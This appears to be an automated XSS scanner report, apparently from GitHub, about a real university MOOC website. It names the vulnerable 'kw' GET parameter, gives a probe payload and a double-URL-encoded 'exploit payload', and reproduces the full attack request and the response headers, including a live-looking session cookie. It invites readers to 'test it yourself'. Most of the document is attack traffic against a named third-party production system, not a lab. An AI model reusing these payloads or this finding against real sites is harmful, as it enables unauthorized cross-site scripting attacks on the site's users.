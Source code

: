 ## https://mooc.s.ecust.edu.cn/ananas/dialog/ballchart?begindate=qdmu2&callback=c5659&csrf_token=b4678&emailto=gwoh7&enddate=y9vx4&id=pejg0&immagine=hc4s3&index=oi6a1&item=xu4r3&kw=vs3hy1%2520%253Cxs1%252F%26%23x3c%3Bxs2%26%23x2f%3B&lang=bead6&list_type=ymoj0&month=xt8t0&page=ocxz7&tid=ka1w5&token=wu8j4&type=eafi7&uid=sc1i6&unsubscribe_token=oyb52&url=fo6d9&year=prux3
| Key | Value |
| --- | ----- |
| XSS类型 | url双编码参数 |
| 时间 | 2024-11-07 16:59:58 |
| XSS位置 | get_parameter |
| 隐藏参数 | false |
| Key | kw |
| 描述 | url可被解析两次，自己测试吧.. |
| Payload | kw=vs3hy1%20%3Cxs1%2F&#x3c;xs2&#x2f; |
| 利用payload | kw=%253c%2578%2573%2531 |

### 请求包
```
GET /ananas/dialog/ballchart?begindate=qdmu2&callback=c5659&csrf_token=b4678&emailto=gwoh7&enddate=y9vx4&id=pejg0&immagine=hc4s3&index=oi6a1&item=xu4r3&kw=vs3hy1%2520%253Cxs1%252F%26%23x3c%3Bxs2%26%23x2f%3B&lang=bead6&list_type=ymoj0&month=xt8t0&page=ocxz7&tid=ka1w5&token=wu8j4&type=eafi7&uid=sc1i6&unsubscribe_token=oyb52&url=fo6d9&year=prux3 HTTP/1.1
Host: mooc.s.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Content-Type: text/html;charset=UTF-8
Set-Cookie: JSESSIONID=2A5F6B5271C3755E7DCC614D5877A63E; Path=/ananas; Secure; HttpOnly moocroute=4bf5c2ce5827da5c765a3b3f7ac293df; Path=/
Strict-Transport-Security: max-age=31536000;includeSubDomains
Date: Thu, 07 Nov 2024 16:59:57 GMT
Vary: Accept-Encoding
Connection: keep-alive
Server: CXS

```

